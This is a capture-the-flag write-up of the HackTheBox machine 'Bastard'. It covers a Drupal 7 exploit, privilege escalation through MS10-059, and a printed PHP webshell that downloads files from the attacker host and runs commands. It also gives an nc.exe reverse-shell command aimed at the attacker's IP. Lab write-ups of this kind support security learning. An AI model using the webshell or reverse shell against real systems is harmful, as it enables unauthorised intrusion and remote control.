```yaml
---
title: "HackTheBox | Bastard"
layout: post
date: 2023-08-16 12:00
tag: 
- HackTheBox
- Pentesting
- Bastard
- Windows
- Medium
- Drupal
- PHP
- MS10-059
image: https://labs.hackthebox.com/storage/avatars/a8d2ae87fbe6d1ccfe93522d74defb3a.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

Bastard is a medium Windows HackTheBox machine Bastard that requires some knowledge of PHP in order to modify and use the proof of concept required for initial entry. This machine demonstrates the potential severity of vulnerabilities in content management systems.

---

# Nmap

```bash
nmap -A -T4 10.10.10.9         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 10:25 +01
Nmap scan report for 10.10.10.9
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As always let's start checking the port 80 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113104429.png>)

Heem, this web app is running Drupal 7 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113124019.png>)

The `changelog.txt` file shows us the exacte version :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113105449.png>)

[https://www.exploit-db.com/exploits/41564](https://www.exploit-db.com/exploits/41564)

As specified in the exploit above, I checked the `/rest_endpoint` but it says not found! 

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113110750.png>)

Then I checked just the `/rest` and it does exist :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113110800.png>)

Running the exploit triggers an error, so I needed to install the php-curl :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113111207.png>)

```bash
sudo apt-get install php-curl
```

[https://gist.github.com/devzspy/a85856e6f17eeefb328b2c37810db6f6](https://gist.github.com/devzspy/a85856e6f17eeefb328b2c37810db6f6)

And I used the php shell above to upload a webshell :

```php
$phpCode = <<<'EOD'
<?php 
if (isset($_REQUEST['fupload'])) { 
	file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.24/" . $_REQUEST['fupload'])); 
}; 
if (isset($_REQUEST['fexec'])) { 
	echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>"; 
}; 
?>
EOD;
```

Also I adjusted the exploit to make it work for me :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120208.png>)

And the webshell is uploaded successfully :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113111802.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120127.png>)

Let's get a reverse shell on my machine :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120427.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120603.png>)

```bash
nc.exe -e cmd.exe 10.10.14.24 9999
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120522.png>)

And now I am in as iusr user :

# User flag

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120505.png>)

I can read the user flag easily :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120728.png>)

# PE

Checking the `whoami /priv` we see that SeImpersonatePrivilege is Enabled, so I thought about the JuicyPotato! 

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120903.png>)

But unfortunately it didn't work!

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123731.png>)

So I run the exploit suggester :

```bash
python2 windows-exploit-suggester.py --database 2024-01-12-mssb.xls --systeminfo systeminfo.txt
```

And it is our friend MS10-059 again!

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123510.png>)

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123651.png>)

Running the exploit gives us a SYSTEM shell :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123437.png>)

And now we can read the root flag !

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123611.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>